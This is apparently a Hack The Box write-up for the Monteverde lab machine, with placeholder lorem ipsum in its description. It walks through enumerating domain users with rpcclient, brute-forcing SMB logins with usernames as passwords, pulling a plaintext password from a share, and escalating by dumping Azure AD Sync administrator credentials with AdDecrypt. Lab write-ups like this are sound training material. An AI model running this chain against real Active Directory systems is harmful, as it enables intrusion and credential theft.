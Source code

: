 ```yaml
---
title: Monteverde - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-01-21
image: images/monteverde_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/monteverde_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@p3:/opt/htb/machines/monteverde# nmapAutomatorDirb.sh 10.10.10.172 All
    PORT      STATE SERVICE
    53/tcp    open  domain
    88/tcp    open  kerberos-sec
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds
    464/tcp   open  kpasswd5
    593/tcp   open  http-rpc-epmap
    636/tcp   open  ldapssl
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
    3269/tcp  open  globalcatLDAPssl
    5985/tcp  open  wsman
    9389/tcp  open  mc-nmf     .NET Message Framing
    49667/tcp open  msrpc      Microsoft Windows RPC
    49669/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
    49670/tcp open  msrpc      Microsoft Windows RPC
    49673/tcp open  msrpc      Microsoft Windows RPC
    49702/tcp open  msrpc      Microsoft Windows RPC
    49771/tcp open  msrpc      Microsoft Windows RPC

    PORT    STATE SERVICE VERSION
    53/udp  open  domain  (generic dns response: SERVFAIL)
    123/udp open  ntp     NTP v3
    389/udp open  ldap    Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)

    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    Domain: Megabank.local0


2. Enum domain users with rpcclient.
    root@p3:/opt/htb/machines/monteverde# rpcclient -U "" 10.10.10.172
      rpcclient $> enumdomusers
      user:[Guest] rid:[0x1f5]
      user:[AAD_987d7f2f57d2] rid:[0x450]
      user:[mhope] rid:[0x641]
      user:[SABatchJobs] rid:[0xa2a]
      user:[svc-ata] rid:[0xa2b]
      user:[svc-bexec] rid:[0xa2c]
      user:[svc-netapp] rid:[0xa2d]
      user:[dgalanos] rid:[0xa35]
      user:[roleary] rid:[0xa36]
      user:[smorgan] rid:[0xa37]

    Enumerate each account (queryuser) and we find that mhope (Mike Hope) and AAD_987d7f2f57d2 is the only accounts with a login_count
    higher then 0. AAD_987d7f2f57d2 has an interesting description, giving us an installation identifier.

      rpcclient $> queryuser 0x450
      	User Name   :	AAD_987d7f2f57d2
      	Full Name   :	AAD_987d7f2f57d2
        ..
      	Description :	Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
        ..
      	user_rid :	0x450
      	group_rid:	0x201
        ..
      	logon_count:	0x00000009
        ..

    We are unable to get any account hashes using Impacket GetNPUsers.py as the accounts doesn't have UF_DONT_REQUIRE_PREAUTH.


3. Enumerate SMB. We are unable to get any info using smbclient and anonymous login. Using msf we can enumerate the accounts with
   found users. As we don't have any passwords yet we try to set 'USER_AS_PASS' as TRUE.

    msf5 auxiliary(scanner/smb/smb_login) > options
      Name               Current Setting        Required  Description
      ----               ---------------        --------  -----------
      RHOSTS             10.10.10.172           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT              445                    yes       The SMB service port (TCP)
      SMBDomain          megabank.local         no        The Windows domain to use for authentication
      USER_AS_PASS       true                   no        Try the username as the password for all users
      USER_FILE          users-monteverde.txt   no        File containing usernames, one per line

    msf5 auxiliary(scanner/smb/smb_login) > run

      [*] 10.10.10.172:445      - 10.10.10.172:445 - Starting SMB login bruteforce
      ..
      [-] 10.10.10.172:445      - 10.10.10.172:445 - Failed: 'megabank.local\mhope:mhope',
      [+] 10.10.10.172:445      - 10.10.10.172:445 - Success: 'megabank.local\SABatchJobs:SABatchJobs'
      [-] 10.10.10.172:445      - 10.10.10.172:445 - Failed: 'megabank.local\svc-ata:svc-ata',
      ..

    We find one matching credential for SMB - SABatchJobs:SABatchJobs


4. Enumerate SMB further using smbclient and the found credentials.
    root@p3:/opt/htb/machines/monteverde# smbclient -L 10.10.10.172 -U SABatchJobs
      Enter WORKGROUP\SABatchJobs's password:

      	Sharename       Type      Comment
      	---------       ----      -------
      	ADMIN$          Disk      Remote Admin
      	azure_uploads   Disk
      	C$              Disk      Default share
      	E$              Disk      Default share
      	IPC$            IPC       Remote IPC
      	NETLOGON        Disk      Logon server share
      	SYSVOL          Disk      Logon server share
      	users$          Disk

    The share 'azure_uploads' is empty, however looking in 'users$' we find an interesting .xml containing a password.
      root@p3:/opt/htb/machines/monteverde# smbclient \\\\10.10.10.172\\users$ -U SABatchJobs
        smb: \> dir
          .                                   D        0  Fri Jan  3 14:12:48 2020
          ..                                  D        0  Fri Jan  3 14:12:48 2020
          dgalanos                            D        0  Fri Jan  3 14:12:30 2020
          mhope                               D        0  Fri Jan  3 14:41:18 2020
          roleary                             D        0  Fri Jan  3 14:10:30 2020
          smorgan                             D        0  Fri Jan  3 14:10:24 2020
        smb: \> cd mhope
        smb: \mhope\> dir
          .                                   D        0  Fri Jan  3 14:41:18 2020
          ..                                  D        0  Fri Jan  3 14:41:18 2020
          azure.xml                          AR     1212  Fri Jan  3 14:40:23 2020

      root@p3:/opt/htb/machines/monteverde# cat azure.xml
        ..
          <S N="Password">4n0therD4y@n0th3r$</S>
        ..

    NOTE: Credentials - mhope:4n0therD4y@n0th3r$


5. Login with evil-winrm using found credentials for mhope, grab user.txt.
    root@p3:/opt/htb/machines/monteverde# evil-winrm -i monteverde.htb -u mhope -p 4n0therD4y@n0th3r$
      *Evil-WinRM* PS C:\Users\mhope\Desktop> type user.txt
        4961****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking at the directory of mhope we find the dir .Azure hinting that this privesc should/have somnething to do with Azure.
   We find a TokenCache containing lots of information that might be valuable. Also something called 'Microsoft Azure AD Sync'
   in C:\Program Files\.

   Enumerating the box further tells us that it's running sqlserver locally (tcp 1433), this sounds like a promising point to start.

   *Evil-WinRM* PS C:\Users\Administrator\Documents> netstat -aon
     Active Connections
       Proto  Local Address          Foreign Address        State           PID
       ..
       TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       3512
       ..
       TCP    10.10.10.172:1433      10.10.10.172:49720     ESTABLISHED     3512
       TCP    10.10.10.172:1433      10.10.10.172:49721     ESTABLISHED     3512
       TCP    10.10.10.172:1433      10.10.10.172:49722     ESTABLISHED     3512
       TCP    10.10.10.172:1433      10.10.10.172:49723     ESTABLISHED     3512
       TCP    10.10.10.172:1433      10.10.10.172:49724     ESTABLISHED     3512


2. Reading about Azure AD Sync it is the service responsible for syncing data between your local domain and the Azure based domain.
   The service needs privileged credentials from the local domain in order to sync, meaning this could potentially be exploited.

   Googling "Azure AD sync exploit" we find an article explaining how to Priv Esc using Azure AD Connect Database, and even has
   a compiled program to do it for you, see link below under 'Information'.

3. Download the program and upload the .exe and .dll to the vicitm host (C:\temp\AdDecrypt)
   In order for the program to work we need to 'stand' in the ADSync directory.

   *Evil-WinRM* PS C:\temp\AdDecrypt> dir

         Directory: C:\temp\AdDecrypt


     Mode                LastWriteTime         Length Name
     ----                -------------         ------ ----
     -a----        1/22/2020  12:29 AM          14848 AdDecrypt.exe
     -a----        1/22/2020  12:29 AM         334248 mcrypt.dll

   *Evil-WinRM* PS C:\temp\AdDecrypt> cd C:\"Program Files"\"Microsoft Azure AD Sync"\Bin
   *Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin>
   *Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\temp\AdDecrypt\AdDecrypt.exe -FullSQL

    ======================
    AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
    Based on original code from: https://github.com/fox-it/adconnectdump
    ======================

    Opening database connection...
    Executing SQL commands...
    Closing database connection...
    Decrypting XML...
    Parsing XML...
    Finished!

    DECRYPTED CREDENTIALS:
    Username: administrator
    Password: d0m@in4dminyeah!
    Domain: MEGABANK.LOCAL

   NOTE: If the program doesn't work, try to import the ADSync module and run it again. Import-Module ADSync
         Also, the .exe is polling SQL with "Server=LocalHost;Database=ADSync;Trusted_Connection=True;". Luckily this is the
         exact structure of the database on Monteverde box, in other circumstances we would need to re-compile the .exe.


4. Login with found admin credentials and grab root.txt

    root@p3:/opt/htb/machines/monteverde# evil-winrm -i monteverde.htb -u administrator -p d0m@in4dminyeah!
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
      megabank\administrator
    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
      1290****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

PrivEsc, ADSync Exploit
  https://vbscrub.video.blog/2020/01/14/azure-ad-connect-database-exploit-priv-esc/
